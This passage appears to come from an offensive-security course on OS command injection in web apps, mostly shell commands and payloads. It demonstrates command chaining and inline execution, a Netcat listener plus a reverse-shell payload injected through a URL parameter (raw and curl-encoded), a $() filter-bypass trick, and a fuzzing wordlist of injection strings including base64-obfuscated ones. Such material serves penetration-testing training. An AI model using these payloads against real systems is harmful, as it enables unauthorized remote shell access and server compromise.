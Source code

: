 


```shell
http://target:80/python/index.py?ip=127.0.0.1|id
```

Most operating systems allow users to run multiple commands together on one line. In the case of Linux, we can use the semicolon (;), the logical AND (&&), the logical OR (||), and even a single pipe character (|).

```shell
ls -ls
```

As expected, this lists files and directories. As an example of simple command chaining, we will add a semicolon to the end of the command (marking the end of a command in Linux) and follow it with id. This should execute the command sequentially.

```shell
ls -ls ; id
```

We can also use && to chain commands. In this case the second command will only run if the first exits without error:

```shell
whoami && hostname
```

Next, we use && again and note that if the first command fails, the second one won't run.

```shell
foobar && hostname
```

Alternatively, a logical OR (||) will only run the second command if the first fails.

```shell
whoami || id
```

In addition to the semicolon, which allows us to chain multiple commands together in one statement, another unique separator for Linux is the newline (\n), which exists in every HTTP request. Its hexadecimal value is 0x0A.

Finally, let's discuss some Linux-specific inline execution mechanisms. Considers these examples, which use the backtick (`) character and the $() null statement to "wrap" a command ("cmd").

```shell
`cmd`
$(cmd)
```

```shell
echo "This is an `whoami` echo statement"
```

```shell
echo "This is an $(whoami) echo statement"
```

We'll listen (bind) to the 0.0.0.0 interface (-l), request verbose output (-v), print numerical IP addresses and ports in all output (-n), and bind to port 9090 (-p 9090). Let's combine these arguments and run our listener.

```shell
nc -nlvp 9090
```

Now that we have our Netcat listener established, let's consider a sample payload.

```shell
http://target:80/nodejs/index.js?ip=127.0.0.1|bash -c 'bash -i >& /dev/tcp/192.168.49.51/9090 0>&1'
```

URL-encoded

```shell
curl "http://target/nodejs/index.js?ip=127.0.0.1|bash+-c+'bash+-i+>%26+/dev/tcp/192.168.49.51/9090+0>%261'"
```

A Null Statement Injection Bypass can be inserted between any characters of our choosing.

---
    This technique also works for more complex payloads like "nc -nlvp 9090", which becomes: n$()c -n$()lvp 9090
---

```shell
wh$()oami
```

```shell
http://target:80/php/blocklisted.php?ip=127.0.0.1;wh$()oami
```

We'll create the following wordlist as command_injection_custom.txt and place it in our home directory.

```txt
bogus
;id
|id
`id`
i$()d
;i$()d
|i$()d
FAIL||i$()d
&&id
&id
FAIL_INTENT|id
FAIL_INTENT||id
`sleep 5`
`sleep 10`
`id`
$(sleep 5)
$(sleep 10)
$(id)
;`echo 'aWQK' |base64 -d`
FAIL_INTENT|`echo 'aWQK' |base64 -d`
FAIL_INTENT||`echo 'aWQK' |base64 -d`
```


